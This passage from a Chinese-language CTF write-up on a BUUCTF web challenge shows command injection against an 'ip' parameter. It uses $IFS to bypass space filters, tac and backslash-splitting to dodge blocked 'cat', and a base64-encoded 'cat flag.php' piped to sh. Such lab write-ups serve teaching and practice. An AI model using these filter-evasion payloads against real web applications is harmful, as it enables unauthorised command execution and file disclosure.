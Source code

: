 ```
?ip=127.0.0.1;cat$IFS$1index.php
```



![image-20200928201448517](BUUCTF——Web.assets/image-20200928201448517.png)

绕过的内容都看到了

> ps:有时会禁用cat: 解决方法是使用tac反向输出命令：
>
>  linux命令中可以加\，所以甚至可以ca\t /fl\ag

过滤了bash但是没过滤sh，sh的大部分脚本在bash下运行

```
?ip=127.0.0.1;echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|sh
```

"Y2F0IGZsYWcucGhw"这部分是“cat flag.php”的base64-encode

F12得到flag

![image-20200928201950958](BUUCTF——Web.assets/image-20200928201950958.png)

参考资料：https://www.cnblogs.com/wangtanzhi/p/12246386.html

